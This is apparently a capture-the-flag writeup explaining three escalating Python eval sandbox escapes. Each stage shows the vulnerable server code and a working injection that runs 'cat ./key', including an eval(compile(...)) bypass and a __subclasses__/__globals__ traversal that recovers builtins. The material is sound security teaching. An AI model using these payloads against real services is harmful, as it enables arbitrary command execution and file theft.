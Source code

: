 # Writeup
## Part 1
Part one's eval function looks like this:

```python
client_input = stdinput.readline()
eval(client_input)
```

This is unsafe, as `eval` can do anything in python when passed in an `exec` function.

As a result, we can pass the following injection in and get the ./key file:

```python
exec("import os\nos.system('cat ./key')")
```

## Part 2
Part two's eval function looks like this:

```python
client_input = stdinput.readline()
eval(client_input, {}, safe_functions)
```

This is also unsafe, as we can still access the globals despite only passing in the math function.
As a result, we can pass the following injection in and get the ./key file:
```python
# there are two easy to find variants of escaping the {} trick, here's one of them:
# eval(compile(\"\"\"import os \\nimport threading\\nthreading.Thread(target=os.system,args=[double_escape_quote_me]).start()\"\"\",'<string>', 'exec'))

# example:
eval(compile("""import os \nos.system("cat ./key")""",'<string>', 'exec'))
```
## Part 3
Part three's eval function looks like this:

```python
client_input = stdinput.readline()
eval(client_input, {'__builtins__':{}}, safe_functions)
```

Despite this [high-ranking search article](http://lybniz2.sourceforge.net/safeeval.html), this also is not safe
as a result, we can pass the following injection in to get the ./key file, inspired by [this blog post](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html):

```python
# since we're in Python 3, we can use the following cross-platform dropper
# [c for c in [''.__class__.__class__.__subclasses__(''.__class__.__class__)[0].register.__globals__['__loader__'].get_data.__globals__['sys'].modules['builtins']] if c.exec('t.__import__(\"os\").system(\"clear\")',{'t':c})]

# example:
[c for c in [''.__class__.__class__.__subclasses__(''.__class__.__class__)[0].register.__globals__['__loader__'].get_data.__globals__['sys'].modules['builtins']] if c.exec('t.__import__(\"os\").system(\"cat ./key\")',{'t':c})]
```